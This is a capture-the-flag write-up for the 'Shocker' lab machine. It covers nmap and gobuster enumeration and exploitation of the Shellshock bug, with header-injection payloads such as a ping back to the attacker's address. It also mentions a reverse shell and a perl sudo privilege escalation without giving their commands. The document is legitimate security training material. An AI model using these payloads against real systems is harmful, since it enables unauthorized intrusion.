




# Shocker
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 20:39 BST
Nmap scan report for 10.10.10.56 (10.10.10.56)
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.10 seconds
```



- `gobuster`
  - the option `-f` is important, since it will `Append / to each request`
  - I wasn't able to find anything without that option
```
└─$ gobuster dir -u http://10.10.10.56/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 50 -f     
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/06/10 05:47:40 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
/server-status/       (Status: 403) [Size: 300]
```
- Let's check the content of the `cgi-bin`
```
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -x sh,cgi,pl 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,cgi,pl
[+] Timeout:                 10s
===============================================================
2023/06/10 06:09:48 Starting gobuster in directory enumeration mode
===============================================================
/.html.cgi            (Status: 403) [Size: 303]
/.html.pl             (Status: 403) [Size: 302]
/.html                (Status: 403) [Size: 299]
/.html.sh             (Status: 403) [Size: 302]
/user.sh              (Status: 200) [Size: 118]
/.htm                 (Status: 403) [Size: 298]
/.htm.cgi             (Status: 403) [Size: 302]
/.htm.pl              (Status: 403) [Size: 301]
/.htm.sh              (Status: 403) [Size: 301]
/.                    (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 303]
...
```
- We found `user.sh`



## Foothold/User
- The name of the suggest the `Shellshock`, [CVE-2014-6271](https://blog.qualys.com/vulnerabilities-threat-research/2014/09/24/bash-remote-code-execution-vulnerability-cve-2014-6271)
  - https://en.wikipedia.org/wiki/Shellshock_(software_bug)
  - `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
  - `User-Agent` header is usually the target
    - We can also test other headers: `Cookie`, `Referer`
  - We use `echo;` to receive response back from server, but RCE still exists without it
    - You can try `() { :;}; /bin/ping -c1 10.10.16.3`
      - You will not receive `http-response`, but will receive ping
  - Notice that we have to use full `path` of the binary for execution


- Let's get a `reverse shell`



## Root
- Enumeration for privesc
  - `sudo -l`



- [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)


- Rooted


